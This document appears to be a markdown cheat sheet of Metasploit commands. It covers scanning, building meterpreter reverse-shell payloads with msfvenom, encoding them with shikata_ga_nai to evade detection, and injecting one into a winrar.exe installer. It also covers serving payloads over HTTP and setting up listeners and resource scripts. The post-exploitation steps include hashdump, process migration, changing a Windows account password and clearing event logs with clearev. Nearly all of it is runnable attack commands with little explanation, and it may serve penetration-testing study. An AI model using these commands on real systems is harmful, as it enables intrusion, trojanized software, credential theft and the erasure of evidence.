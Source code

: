 # service postgresql start & msfconsole 


- __`search type:auxiliary name:smb`__
- __`db_import /root/result`__
- __`db_nmap -A -Pn -T4 ,ip.`__
- __`hosts`__
- __`services`__

## using load wmap in msfconsole

- __`load wmap`__
- __`wmap_sites -h`__
- __`wmap_sites -a <target_ip>`__
- __`wmap_targets -h`__
- __`wmap_targets -t http://<target_ip>`__
- __`wmap_sites -l`__
- __`wmap_run -h`__
- __`wmap_run -t`__
- __`wmap_vulns -h`__
- __`wmap-vulns -l`__

### msfvenom
- __`msfvenom --list payloads`__
##### Windows payload
- __`msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > /home/kali/Desktop/payloadx86.exe`__
- __`msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > /home/kali/Desktop/payloadx64.exe`__
##### Linux payload
- __`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f elf > ~/Desktop/payloadx86`__
- __`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f elf > ~/Desktop/payloadx64`__
  - > __we have create a payload and now we should set the listern in msfconsole__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - __`exploit`__


### Encoding Payloads with Msfvenom
##### Windows
- __`msfvenom --list encoders`__
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -e x86/shikata_ga_nai -f exe > ~/Desktop/payloadx86.exe`__
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/payloadx86.exe`__
  - __`-i` iterations__
  - __`-e` endcode__

##### Linux
- __`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/payloadx86`__


### Injecting Payloads into windows Portable Executables
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe -x winrar.exe > ~/Desktop/payloadx86.exe`__
  - __`-x` injecting payload__

- __`sudo python -m SimpleHTTPServer 80`__
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <youip>
set LPORT 4444
exploit
```

### Automating Metasploit with Resource Scripts
  - __create a file handler.rc__
    - __`nano handler.rc`__
  - __writing the command that you want to automat__
    ```use multi/handler set payload windows/meterpreter/reverse_tcp set LHOST <yourip> LPORT 444 exploit```
  - __`msfconsole -r handler.rc`__
    - __it will run automatically without typing__

  - __can do this form the msfconsole also__
    - __`resource ~/Desktop/handler.rc`__
    - __we have one more option called `makerc`__
      - __`makerc` will save the pervious command in .rc file that you entered in the msfconsole__
        - __`makerc /home/kali/Desktop/protscan.rc`__
# For linux
- __`getuid`__
- __`getenv PATH`__
- __`getenv TERM`__
- __`search -d /usr/bin -f *backdoor*`__
- __`search -f *.jpg`__
- __`search -f *.php`__

# For Windows
- __`show_mount`__
- __`ps`__
- __`migrate explorer.exe`__
- __`pgrep explorer.exe`__
- __`hashdump`__
__Down below command are for the windows target system after login using meterpreter using shell__
  - __`net users`__
  - __`net localgroup administrators`__
  - __`net localgroup administrators password123` Changing passoword__
- __you can clear all the logs in the windows target system__
  - __type the below command in meterpreter__
  - __`clearev`__
 
__displaying mounted drive in windows system__
  - __`show_mount`__


